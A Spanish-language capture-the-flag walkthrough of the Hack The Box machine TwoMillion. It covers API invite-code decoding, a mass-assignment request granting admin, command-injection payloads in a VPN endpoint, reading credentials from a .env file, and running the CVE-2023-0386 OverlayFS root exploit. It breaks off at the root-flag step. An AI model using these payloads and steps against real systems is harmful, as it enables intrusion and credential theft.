> [!info] Información de la máquina **Plataforma:** Hack The Box **Máquina:** TwoMillion **OS:** Linux (Ubuntu 22.04.2 LTS) **Dificultad:** Easy **Dominio:** `2million.htb` **IP atacante:** `10.10.14.86`

> [!warning] Nota sobre la IP Durante la sesión la máquina fue reasignada por HTB y cambió de IP (`10.129.229.66` → `10.129.84.14`). Esto es normal cuando la instancia se reinicia; por eso se trabaja siempre contra el dominio `2million.htb` en `/etc/hosts` en lugar de la IP fija.

---

## 1. Resumen

**TwoMillion** es una máquina Linux que recrea la landing page de celebración de Hack The Box (2 millones de usuarios). La cadena de compromiso combina **abuso de lógica de negocio en una API** (invite code cifrado en ROT13 + Base64), una **escalada horizontal a admin por asignación masiva de parámetros (mass assignment / IDOR)**, una **Command Injection** en un endpoint administrativo de generación de VPN, y finalmente una **escalada de privilegios de kernel vía CVE-2023-0386 (OverlayFS)**.



---

## 2. Enumeración inicial

### 2.1 Añadir la máquina a `/etc/hosts`

La aplicación solo responde correctamente por el dominio virtual, así que se agrega a `/etc/hosts`:

```bash
sudo vim /etc/hosts
```

```text
10.129.229.66    2million.htb
```



> Antes de este paso, el navegador no podía resolver `2million.htb` ("Hmm. We're having trouble finding that site").

---

## 3. Reconocimiento de la aplicación

Al visitar `http://2million.htb/invite`, la landing muestra el clásico saludo de Hack The Box y un campo para introducir un **Invite Code**.

Revisando el JavaScript del front (`inviteapi.js`) se identifican dos funciones AJAX clave:

```javascript
function verifyInviteCode(code) {
    $.ajax({
        type: "POST",
        dataType: "json",
        data: { code: code },
        url: '/api/v1/invite/verify',
        ...
    })
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        ...
    })
}
```

> [!tip] Idea clave Estas dos rutas (`/api/v1/invite/how/to/generate` y `/api/v1/invite/generate`) no están documentadas en la UI. Se descubren leyendo el JS servido por el propio sitio.

---

## 4. Generación del Invite Code — ROT13 + Base64

### 4.1 Consultar cómo se genera el código

```bash
curl -X POST http://2million.htb/api/v1/invite/how/to/generate | jq
```

```json
{
  "0": 200,
  "success": 1,
  "data": {
    "data": "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr",
    "enctype": "ROT13"
  },
  "hint": "Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."
}
```

El campo `enctype` indica explícitamente el cifrado: **ROT13**. Decodificando el texto se obtiene:

```text
In order to generate the invite code, make a POST request to /api/v1/invite/generate
```



### 4.2 Generar el código

```bash
curl -X POST http://2million.htb/api/v1/invite/generate | jq
```

```json
{
  "0": 200,
  "success": 1,
  "data": {
    "code": "UEYxQlgtMENGTkktSUtOOVAtVzZNR1Q=",
    "format": "encoded"
  }
}
```

El campo `"format": "encoded"` sugiere codificación estándar → **Base64**.

### 4.3 Decodificar el código

```bash
echo 'UEYxQlgtMENGTkktSUtOOVAtVzZNR1Q=' | base64 -d
```

```text
PF1BX-0CFNI-IKN9P-W6MGT
```


> [!success] Invite code obtenido `PF1BX-0CFNI-IKN9P-W6MGT` — listo para usarse en el formulario de registro.

---

## 5. Registro de usuario

Con el código decodificado se completa el registro en `http://2million.htb/register` (usuario, correo y contraseña propios).

> [!tip] Herramientas útiles usadas en este paso
> 
> - [ROT13 decoder/encoder](https://dnschecker.org/rot13-decoder-encoder.php)
> - [beautifier.io](https://beautifier.io/) — para reformatear el `inviteapi.js` minificado y leerlo con comodidad.

---

## 6. Enumeración de la API con Burp Suite

### 6.1 Interceptar la actividad autenticada

Tras iniciar sesión y llegar a `http://2million.htb/home/access`, se pone **Burp Suite** en modo intercept. La página dispara automáticamente una petición hacia la API de VPN:

```http
GET /api/v1/user/vpn/generate HTTP/1.1
Host: 2million.htb
Cookie: PHPSESSID=...
```



Esta petición se envía a **Repeater** para seguir trabajando sobre ella.

### 6.2 Descubrir todas las rutas de la API

Modificando la ruta a simplemente `/api/v1` y reenviando, la API responde con un **listado completo de endpoints** disponibles (una especie de auto-documentación):

```http
GET /api/v1 HTTP/1.1
Host: 2million.htb
```

```json
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```



> [!important] Hallazgo crítico Existen rutas bajo `admin/` — entre ellas `PUT /api/v1/admin/settings/update` y `POST /api/v1/admin/vpn/generate` — accesibles aunque el usuario registrado **no** sea administrador todavía.

Un `GET /api/v1/admin/auth` confirma que el usuario actual no es admin (`is_admin: 0`, valor booleano).

---

## 7. Escalada a Admin — Mass Assignment / IDOR

La ruta `/api/v1/admin/settings/update` usa el método **PUT**. Se toma la petición capturada, se cambia el método de GET a PUT, se ajusta `Content-Type: application/json` y se envía sin body:

```http
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
Content-Type: application/json
Content-Length: 0
```

```json
{
  "status": "danger",
  "message": "Missing parameter: email"
}
```



El mensaje de error revela el nombre exacto del parámetro que falta. Se añade `email` y, además, se agrega **`is_admin: 1`** — un parámetro no documentado pero razonable de probar (mass assignment):

```json
{
    "email": "admin@2million.htb",
    "is_admin": 1
}
```

**Respuesta:**

```json
{
    "id": 13,
    "username": "admin",
    "is_admin": 1
}
```



> [!success] Admin obtenido El endpoint no valida que el usuario autenticado tenga permisos para modificar `is_admin`. La API confía ciegamente en los campos enviados por el cliente → **mass assignment / privilege escalation horizontal**.

---

## 8. RCE vía Command Injection — `POST /api/v1/admin/vpn/generate`

Ya como admin, se prueba el último endpoint pendiente: generar una VPN para un usuario específico.

### 8.1 Uso normal

```http
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
Content-Type: application/json

{
    "username": "admin"
}
```

La respuesta devuelve un archivo `.ovpn` completo y válido (certificados, claves, configuración del cliente OpenVPN):

```text
client
dev tun
proto udp
remote edge-eu-free-1.2million.htb 1337
...
<ca>
-----BEGIN CERTIFICATE-----
...
```



### 8.2 Inyección de comandos

El parámetro `username` se concatena sin sanitizar en un comando del sistema. Se prueba:

```json
{
    "username": "admin; id #"
}
```

**Respuesta:**

```text
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



> [!success] Command Injection confirmada El backend ejecuta el `username` dentro de una llamada de sistema (probablemente para generar el certificado con OpenSSL/`easy-rsa`). Se obtiene **RCE como `www-data`**.

---

## 9. Enumeración post-explotación

### 9.1 Listar el directorio de la aplicación

```json
{
    "username": "admin; ls #"
}
```

```text
Database.php
Router.php
VPN
assets
controllers
css
fonts
images
index.php
js
views
```



### 9.2 Buscar archivos ocultos

```json
{
    "username": "admin; ls -la #"
}
```

```text
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1337 Jun  2  2023 Database.php
-rw-r--r--  1 root root 2787 Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4096 Aug  9 03:40 VPN
...
```



> [!important] `.env` descubierto Al listar con `-la` aparece un `.env` de 87 bytes — candidato inmediato a contener credenciales (típico en apps PHP con configuración vía variables de entorno).

Leyendo el `.env` (vía la misma inyección con `cat`) se obtienen las **credenciales del usuario `admin` del sistema**, reutilizadas por el propietario en SSH.

---

## 10. Acceso SSH como `admin`

```bash
ssh admin@2million.htb
# contraseña: la interceptada/leída desde el .env vía Burp
```

```text
The authenticity of host '2million.htb (10.129.84.14)' can't be established.
...
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.70-051570-generic x86_64)
...
admin@2million:~$ ls
user.txt
admin@2million:~$ cat user.txt
85289a238912c316c40d4637d651a5d5
```



> [!success] User Flag capturada ✅

---

## 11. Pista de escalada — correo interno

Explorando el sistema como `admin`:

```bash
cd /var/mail
cat admin
```

```text
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
...
Hey admin,

I know you're working as fast as you can to do the DB migration.
While we're partially down, can you also upgrade the OS on our web host?
There have been a few serious Linux kernel CVEs already this year.
That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```



> [!important] Pista directa El correo menciona explícitamente una vulnerabilidad de kernel en **OverlayFS / FUSE** sin parchear. Esto apunta directamente a **CVE-2023-0386**, una escalada de privilegios local muy conocida en overlayfs.

---

## 12. Escalada de privilegios — CVE-2023-0386 (OverlayFS)

### 12.1 La vulnerabilidad

**CVE-2023-0386** es una vulnerabilidad en el subsistema **OverlayFS** del kernel Linux que permite a un usuario sin privilegios, mediante `unshare` (user namespaces) y el montaje de un `overlay` especialmente construido, **copiar un archivo con permisos `setuid` de root preservando privilegios elevados** — resultando en escalada local a `root`.

### 12.2 Obtener el PoC

Se usa el exploit público del repositorio de Datadog Security Labs:

🔗 `https://github.com/DataDog/security-labs-pocs/blob/main/proof-of-concept-exploits/overlayfs-cve-2023-0386/poc.c`

```bash
# Descargar / crear poc.c con el contenido del exploit
```

### 12.3 Compilar y ejecutar

```bash
gcc poc.c -o poc -D_FILE_OFFSET_BITS=64 -static -lfuse -ldl
```

```text
unshare -r -m sh -c 'mount -t overlay overlay -o lowerdir=/tmp/ovlcap/lower,upperdir=/tmp/ovlcap/upper,workdir=/tmp/ovlcap/work /tmp/ovlcap/merge && ls -la /tmp/ovlcap/merge && touch /tmp/ovlcap/merge/file'

[+] readdir
[+] getattr_callback
[+] open_callback
[+] read_callback
[+] ioctl callback
    cmd 0x80086601
```

```bash
./poc
id
```

```text
uid=0(root) gid=0(root) groups=0(root),1000(admin)
```



### 12.4 Captura de la root flag

```bash
cd /root
ls
